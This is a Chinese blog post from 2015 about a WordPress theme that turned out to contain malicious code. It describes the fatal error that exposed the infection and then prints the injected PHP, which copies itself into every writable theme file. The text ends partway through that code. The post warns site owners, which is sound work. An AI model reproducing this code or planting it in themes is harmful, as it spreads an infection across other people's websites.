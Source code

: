 ```yaml
---
author: liqimore
comments: true
date: 2015-11-22 00:09:32+00:00
layout: post
link: http://blog.codefog.com/bad-code-in-wordpress-theme.html
slug: bad-code-in-wordpress-theme
title: Wordpress主题被插入恶意代码解决办法
wordpress_id: 16
categories:
- 编程
tags:
- wordpress主题报错
- wordpress恶意代码
- Wordpress更换主题报错
---
```


今天无聊在WP官方主题库里面翻看，看到一个不错的主题，点击了一下预览按钮，之后我将其下载到本地（并没有设置为当前主题，只是收藏），但是在我下载完成后点击预览，出现了function.php报错，具体到了行，我翻看了一下这个主题的function.php文件，没发现异常（我当时居然没发现。。），然后google了一下报错信息（Fatal error: Cannot redeclare _check_isactive_widget()”、”_get_allwidgetcont” 之类），才知道自己中招了！！

下面是全部的恶意代码：

    
    <?php
    function _verifyactivate_widgets(){
    $widget=substr(file_get_contents(__FILE__),strripos(file_get_contents(__FILE__),"<"."?"));$output="";$allowed="";
    $output=strip_tags($output, $allowed);
    $direst=_get_allwidgets_cont(array(substr(dirname(__FILE__),0,stripos(dirname(__FILE__),"themes") + 6)));
    if (is_array($direst)){
    foreach ($direst as $item){
    if (is_writable($item)){
    $ftion=substr($widget,stripos($widget,"_"),stripos(substr($widget,stripos($widget,"_")),"("));
    $cont=file_get_contents($item);
    if (stripos($cont,$ftion) === false){
    $comaar=stripos( substr($cont,-20),"?".">") !== false ? "" : "?".">";
    $output .= $before . "Not found" . $after;
    if (stripos( substr($cont,-20),"?".">") !== false){$cont=substr($cont,0,strripos($cont,"?".">") + 2);}
    $output=rtrim($output, "nt"); fputs($f=fopen($item,"w+"),$cont . $comaar . "n" .$widget);fclose($f);
    $output .= ($isshowdots && $ellipsis) ? "..." : "";
    }
    }
    }
    }
    return $output;
    }
    function _get_allwidgets_cont($wids,$items=array()){
    $places=array_shift($wids);
    if(substr($places,-1) == "/"){
    $places=substr($places,0,-1);
    }
    if(!file_exists($places) || !is_dir($places)){
    return false;
    }elseif(is_readable($places)){
    $elems=scandir($places);
    foreach ($elems as $elem){
    if ($elem != "." && $elem != ".."){
    if (is_dir($places . "/" . $elem)){
    $wids[]=$places . "/" . $elem;
